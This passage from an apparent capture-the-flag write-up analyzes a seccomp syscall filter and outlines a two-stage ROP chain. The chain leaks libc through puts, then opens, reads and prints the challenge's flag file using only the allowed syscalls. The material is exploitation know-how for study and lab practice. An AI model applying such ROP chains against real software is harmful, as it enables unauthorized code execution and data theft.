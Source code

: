```
 0014: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x15 0x00 0x01 0x0000000c  if (A != brk) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x15 0x00 0x01 0x0000000a  if (A != mprotect) goto 0022
 0021: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0022: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x06 0x00 0x00 0x00000000  return KILL
```

It looks like we are allowed to use the `rt_sigreturn`, `exit_group`, `exit`, `open`, `read`, `write`, `brk`, `mmap`, `mprotect`, and `close` syscalls. What stands out the most here is the `open` syscall, which lets us open a file. If we remember from the challenge description, we are specifically given the path for the flag file : `/chal/flag.txt`.

## The Exploit - For Real This Time

So, let's create a ROPchain to `read` the filename from `stdin`, `open` the file, `read` the file into memory, and `puts` the file to `stdout`. Our exploit should look something like this:
```python
# Payload 1 - leak libc

# puts(__libc_start_main@got)
pop rdi ; ret
__libc_start_main@got
puts@plt
main


# Payload 2 - print the flag file

# read(0, writeable_buffer, len(flag_path)) (0 is stdin)
pop rdi ; ret
0x0
pop rsi ; ret
writeable_buffer
pop rdx ; ret
len(flag_path)
read

# fd = open(writeable_buffer, 0) (0 is O_RDONLY) (fd is put into rax)
pop rdi ; ret
writeable_buffer
pop rsi ; ret
0x0
open

# read(fd, writeable_buf, 64)
mov rdi, rax ; ret
pop rsi ; ret
writeable_buffer
pop rdx ; ret
64 # at least the length of the flag (any reasonably large number)
read

# puts(writeable_buf)
pop rdi ; ret
writeable_buffer
puts@plt
```
